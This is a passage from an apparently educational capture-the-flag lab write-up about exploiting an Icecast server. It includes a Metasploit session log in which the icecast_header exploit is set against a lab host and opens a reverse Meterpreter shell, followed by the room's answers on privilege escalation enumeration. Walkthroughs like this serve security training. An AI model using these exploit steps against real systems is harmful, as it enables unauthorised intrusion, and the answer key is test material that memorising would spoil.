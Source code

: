 ```


msf5 > use 0
msf5 exploit(windows/http/icecast_header) > show options

Module options (exploit/windows/http/icecast_header):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   8000             yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf5 exploit(windows/http/icecast_header) > set RHOSTS 10.10.159.191
RHOSTS => 10.10.159.191
msf5 exploit(windows/http/icecast_header) > exploit

[*] Started reverse TCP handler on 10.2.13.68:4444 
[*] Sending stage (176195 bytes) to 10.10.159.191
[*] Meterpreter session 1 opened (10.2.13.68:4444 -> 10.10.159.191:49233) at 2020-06-09 19:00:52 -0400

meterpreter > 
```
6.  Following selecting our module, we now have to check what options we have to set. Run the command `show options`. What is the only required setting which currently is blank? 
```
RHOSTS
```
7. No answer needed

# Task 4 Escalate

Enumerate the machine and find potential privilege escalation paths to gain Admin powers!


1. Woohoo! We've gained a foothold into our victim machine! What's the name of the shell we have now?
```
meterpreter
```

2. What user was running that Icecast process? The commands used in this question and the next few are taken directly from the 'RP: Metasploit' room. 
```
Dark
```
3. What build of Windows is the system?
```
7601
```
4. Now that we know some of the finer details of the system we are working with, let's start escalating our privileges. First, what is the architecture of the process we're running?
```
x64
```
5. No answer needed
